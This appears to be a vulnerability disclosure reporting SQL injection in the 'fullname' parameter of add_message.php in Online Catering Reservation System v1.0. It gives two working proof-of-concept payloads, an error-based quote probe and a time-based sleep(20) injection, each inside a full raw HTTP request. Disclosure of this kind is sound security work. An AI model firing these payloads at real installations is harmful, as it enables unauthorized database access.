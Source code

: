 # Online Catering Reservation System v1.0 has SQL injection

BUG_Author:jackswordsz

Source website address:https://www.sourcecodester.com/php/11355/online-catering-reservation.html

Vulnerability File: /reservation/add_message.php

POST parameter 'fullname' exists SQL injection vulnerability

Payload1:fullname=1'&email=2%40gmail.com&subject=3&message=4

```
POST /reservation/add_message.php HTTP/1.1
Host: localhost
Content-Length: 51
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/reservation/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=02qotonqdgu64aj0uljkiarmul
Connection: close

fullname=1'&email=2%40gmail.com&subject=3&message=4
```

An error occurred in the sql statement

![image](https://github.com/jackswordsz/bug_report/blob/main/picture/jackswordsz1.png)

Payload2:fullname=1' and (select 1 from (select(sleep(20)))b) and 'a'='a&email=2%40gmail.com&subject=3&message=4

```
POST /reservation/add_message.php HTTP/1.1
Host: localhost
Content-Length: 103
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/reservation/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=02qotonqdgu64aj0uljkiarmul
Connection: close

fullname=1' and (select 1 from (select(sleep(20)))b) and 'a'='a&email=2%40gmail.com&subject=3&message=4
```

The server's response time is 20 seconds

![image](https://github.com/jackswordsz/bug_report/blob/main/picture/jackswordsz2.png)
